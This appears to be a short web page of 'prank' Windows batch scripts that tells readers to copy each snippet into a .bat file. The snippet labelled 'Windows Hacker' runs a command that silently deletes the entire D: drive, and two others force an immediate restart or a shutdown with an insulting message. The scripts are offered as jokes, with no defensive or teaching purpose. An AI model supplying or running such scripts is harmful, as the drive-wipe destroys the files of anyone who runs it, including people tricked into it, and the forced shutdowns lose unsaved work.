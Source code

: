 Copy the below code and save file as .bat

======================================================

Windows Hacker :-
rd/s/q D:\

======================================================

Unfortunate Restart:-
@echo off
shutdown -r -f -t 00

======================================================

April Fool
msg * I don't like you
shutdown -c "Error! You are too stupid!" -s
